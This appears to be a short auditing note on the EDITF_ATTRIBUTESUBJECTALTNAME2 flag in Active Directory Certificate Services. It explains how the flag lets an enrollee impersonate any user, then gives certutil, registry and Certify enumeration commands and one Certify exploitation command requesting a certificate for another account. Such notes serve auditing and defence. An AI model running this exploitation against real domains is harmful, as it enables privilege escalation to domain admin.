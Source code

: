 ## Vulnerable `EDITF_ATTRIBUTESUBJECTALTNAME2` setting on CA allowing requesting certs for ANY user ##

#### What's running under the hood ####
- If this flag is set on the CA, any request (including when the subject is built from Active Directory®) can have user defined values in the subject alternative name.

#### What the attack is about ####
- This means that an attacker can enroll in ANY template configured for domain authentication that also allows unprivileged users to enroll (e.g., the default User template) and obtain a certificate that allows us to authenticate as a domain admin (or any other active user/machine).

### Enumeration ###
1. **certutil**
`PS C:\ADCS\Auditor> certutil -config "CA_HOST\CA_NAME" -getreg "policy\EditFlags"`

2. **Registry**
`PS C:\ADCS\Auditor> reg.exe query \\<CA_SERVER>\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\<CA_NAME>\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\ /v EditFlags`

3. **Certify**
`PS C:\ADCS\Auditor> .\Certify.exe find`

### Exploitation ###
`PS C:\ADCS\Auditor> .\Certify.exe request /ca:dc.theshire.local\theshire-DC-CA /template:User /altname:localadmin`